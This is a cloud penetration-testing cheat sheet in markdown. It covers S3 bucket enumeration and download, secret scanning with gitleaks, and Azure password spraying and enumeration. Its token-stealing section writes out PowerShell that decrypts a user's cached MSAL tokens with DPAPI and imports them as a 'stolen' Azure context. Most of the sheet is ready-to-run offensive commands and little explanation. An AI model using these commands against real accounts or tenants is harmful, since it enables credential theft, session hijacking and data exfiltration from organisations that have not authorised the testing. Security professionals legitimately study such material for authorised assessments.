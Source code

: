 ## S3 bucket pillaging
#### Brute force bucket names
- https://github.com/initstring/cloud_enum
```
python3 cloud_enum.py -k <KEYWORD>
```

#### Use the AWS CLI to list the files of the s3 bucket
```
sudo aws s3 ls s3://<BUCKET> --profile <PROFILE>
```

#### Use the AWS CLI to download the files of the s3 bucket
```
sudo aws s3 sync s3://<BUCKET> s3-files-dir --profile <PROFILE>
```

## Git secrets
- https://github.com/zricethezav/gitleaks
#### Search for secrets
```
./gitleaks detect -v source ~/tools/gitleaks/
```

#### Use web browser to view the commit
```
https://github.com/[git account]/[repo name]/commit/[commit ID]
```

## Password spraying Azure
- https://github.com/dafthack/MSOLSpray

### Password spray

## Stealing azure tokens
- https://github.com/rvrsh3ll/TokenTactics
### Method 1
#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Method 2
#### Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```
## Basic enumeration
#### Connect to Azure
```
Connect-AzAccount
```

#### Connect to MSOL
```
connect-msolservice
```

#### Get basic information
- Interesting information:
  - UsersPermissionToReadOtherUsersEnabled
  - DirSyncServiceAccount
  - PasswordSynchronizationEnabled
  - Address/phone/emails
```
Get-MSolCompanyInformation
```

#### Get the AZ subscriptions the user has access too
```
Get-AzSubscription
```

#### List the current context
```
Get-AzContext | fl *
```

#### Enumerate the roles of the current user
```
Get-AzRoleAssignment
```

#### List users of the subscription
```
Get-MSolUser -All
```

#### Get all commands for AZ and MSOnline
```
Get-Module -Name Az.Accounts | Select-Object -ExpandProperty ExportedCommands
Get-Module -Name MSOnline | Select-Object -ExpandProperty ExportedCommands
```
